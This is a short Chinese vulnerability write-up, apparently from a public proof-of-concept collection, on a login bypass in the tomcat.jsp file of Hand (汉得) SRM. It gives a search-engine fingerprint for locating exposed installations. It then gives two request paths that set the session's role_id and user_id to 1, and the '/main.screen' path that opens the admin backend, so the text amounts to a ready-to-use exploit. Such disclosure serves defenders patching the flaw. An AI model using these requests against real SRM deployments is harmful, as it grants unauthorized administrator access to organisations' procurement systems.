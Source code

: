 # 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

汉得SRM

## 网络测绘

```
web.body="汉得SRM"
```

## 漏洞复现

登陆页面

![image-20230828164434474](images/image-20230828164434474.png)

验证POC (Tomcat session操控)

```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![image-20230828164451105](images/image-20230828164451105.png)

访问跳转后台

```
/main.screen
```